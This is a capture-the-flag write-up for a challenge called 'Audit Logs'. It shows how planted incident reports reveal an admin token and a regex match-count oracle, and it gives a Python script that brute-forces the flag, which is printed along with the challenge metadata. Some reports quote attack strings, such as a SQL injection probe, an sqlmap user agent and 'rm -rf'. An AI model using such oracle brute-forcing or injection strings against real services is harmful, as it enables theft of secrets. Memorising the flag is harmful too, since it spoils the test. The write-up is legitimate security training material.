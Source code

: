 ```yaml
---
challenge: Audit Logs
description: "***\nEvery action is logged, but not all logs are what they seem. Dive into TrailSec, an audit trail system, uncover hidden clues in system reports, and extract the flag."
flag: ATR{EFFICIENT_IN_SEARCHING_I_SEE}
scoring: standard(450)
value: 450
category: Hard
authors: Sean McGinty
---
```


# Audit Logs

[Back to Home](../../README.md)

## Points

Hard - 450 points

## Description

Every action is logged, but not all logs are what they seem. Dive into TrailSec, an audit trail system, uncover hidden clues in system reports, and extract the flag.

## Solution

After requesting a container and opening the link provided, we are presented with a text response of:

```
TrailSec Report Backend Service. Try /view_report?id=1.
```

We can go to `/view_report?id=1` and see the following:

```
Incident Report #1: System health check passed. No anomalies detected in the past 24 hours.
```

After continuing to increment the ID, we can see that the report IDs are not sequential. We'll repeat this process until we reach the ID of `16`, which gives us the following:

```
No such report.
```

We have gathered the following reports:

| Report ID | Incident Report                                                         |
|-----------|-------------------------------------------------------------------------|
| 1         | System health check passed. No anomalies detected in the past 24 hours. |
| 2         | Multiple failed login attempts detected on Admin Panel (IP: 192.168.10.42). Recommendation: Lock account after 3 failed attempts. |
| 3         | Unauthorized SSH key detected on production server. Removed unknown key fingerprint: SHA256:9gqMxyz9uYxKxyzNJJvNabcd== Audit initiated. |
| 4         | User "joleen" reported a slow system response. Root cause: Excessive CPU usage from excessive video playback during work hours. Flagged as non-critical. |
| 5         | Report ID mismatched during sync. Please contact support-desk@comssa.org.au. |
| 6         | Audit logs showed a request to from unauthorized IP. Query parameters were retained. Token mismatch suspected. Recommend reviewing logs for ?token= anomalies. |
| 7         | A regex pattern caused a service slowdown. Pattern submitted: (?=f.la)g Note: Log parser incorrectly flagged this as an error. |
| 8         | Request flood detected from IP: 203.0.113.99 User-Agent: sqlmap/1.4.6.10#dev Mitigation: Block IP via WAF. |
| 9         | Query string anomaly on : ?id=' OR '1'='1' Entry logged in audit trail. |
| 10        | Suspicious access to \`/matches\` with token: ADMIN_TOKEN Access denied. Logged for review.  |
| 11        | Querying number of matches may information. Confirmed via penetration test conducted by Red Team. |
| 12        | Coffee machine requested IP lease from DHCP server. Denied. Machine: "MrBean" (MAC: DE:AD:BE:A2:01:23) |
| 13        | User mistyped \`rm -rf /admin\` during onboarding demo. System backup restored successfully. |
| 14        | User "staff02" wanted a more powerful way to search secure files to get the number of files. Resolution: Gave access with our matches endpoint. |
| 15        | Our system was targeted by a DDoS attack. Mitigation: Rate limiting and IP blacklisting implemented. Recommendation: Review firewall rules and increase bandwidth. |

Looking through the reports, `#10` is interesting as it mentions a token of `ADMIN_TOKEN` on a request to `/matches`. There are some other reports that mention regex patterns, the matches route and ?token in `#6`.

When making a GET request to `/matches` with no parameters, we get a response of:

```
{"error":"Invalid token."}
```

Let's add in that token and see what we get `/matches?token=ADMIN_TOKEN`:

```
{"error":"Missing regex pattern."}
```

We can try adding a pattern parameter, say `?token=ADMIN_TOKEN&pattern=abc`, and we get a response of:

```
{"matches":0}
```

This is promising, let's try a `.*` regex pattern to see if we can get any matches:

```
{"matches":6}
```

We can successfully match all matches even if we don't know what they are. We know that the flag is in the format of `ATR{...}` so we can try to match that. We can use the regex pattern `ATR{.*}` and we get a response of:

```
{"matches":1}
```

From here it is just a matter of brute forcing the flag. You should try to be systematic about this. For example, you could work out the character set first. Using `pattern=ATR{[A-Z_]*}` will show that the flag is all uppercase letters and underscores.

One approach is to work out what letters are in the flag with `pattern=ATR{[ABCDEFGHIJKLMNOPQRSTUVWXYZ_]*}` and removing letters. After removing a letter, if the number of matches is the same, you know that letter is not in the flag. You can repeat this process until you have `pattern=ATR{[ACEFGHINRST_]*}`.

From this point it is a matter of brute forcing the flag. You can use a script to do this, or you can do it manually.

Here is an example script that will brute force the flag:

```python
import requests

BASE_URL = "http://<ip>:<port>/matches" # replace with actual server ip and port
TOKEN = "ADMIN_TOKEN"
CHARSET = "ACEFGHINRST_"
FLAG_PREFIX = "ATR{"
FLAG_SUFFIX = "}"

def test_flag(flag):
    pattern = f"{FLAG_PREFIX}{flag}{FLAG_SUFFIX}"
    response = requests.get(BASE_URL, params={"token": TOKEN, "pattern": pattern})
    return response.json().get("matches", 0) == 1

def brute_force_flag():
    flag = ""
    while True:
        for char in CHARSET:
            test_pattern = flag + char
            if test_flag(test_pattern + ".*"):
                flag += char
                print(f"Current flag: {FLAG_PREFIX}{flag}")
                break
        else:
            # No more characters match, flag is complete
            print(f"Flag found: {FLAG_PREFIX}{flag}{FLAG_SUFFIX}")
            break

if __name__ == "__main__":
    brute_force_flag()

# ...
# Current flag: ATR{EFFICIENT_IN_SEARCHING_I_SE
# Current flag: ATR{EFFICIENT_IN_SEARCHING_I_SEE
# Flag found: ATR{EFFICIENT_IN_SEARCHING_I_SEE}
```

After waiting for a minute or two, you'll get a flag of `ATR{EFFICIENT_IN_SEARCHING_I_SEE}`.

See [https://github.com/s3ansh33p/atr25_logs_challenge](https://github.com/s3ansh33p/atr25_logs_challenge) for the source code (was not available during the event).
